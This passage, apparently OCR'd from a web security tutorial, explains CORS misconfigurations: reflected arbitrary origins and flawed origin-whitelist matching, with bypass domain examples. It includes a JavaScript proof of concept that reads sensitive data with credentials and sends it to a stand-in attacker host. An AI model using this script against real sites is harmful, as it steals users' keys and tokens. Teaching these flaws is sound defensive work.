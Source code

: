 ````
These headers state that access is allowed from the requesting domain (malicious-website.com) and that the cross-domain requests can include cookies (Access-Control-Allow-Credentials: true) and so will be processed in-session.

Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
};
````
### Errors parsing Origin headers
````
Some applications that support access from multiple origins do so by using a whitelist of allowed origins. 
When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the Access-Control-Allow-Origin header so that access is granted. 
For example, the application receives a normal request like:

GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com

The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:

HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com

Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. 
These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. 
Any mistakes in the implementation can lead to access being granted to unintended external domains.

For example, suppose an application grants access to all domains ending in:

normal-website.com

An attacker might be able to gain access by registering the domain:

hackersnormal-website.com

Alternatively, suppose an application grants access to all domains beginning with

normal-website.com

An attacker might be able to gain access using the domain:

normal-website.com.evil-user.net
````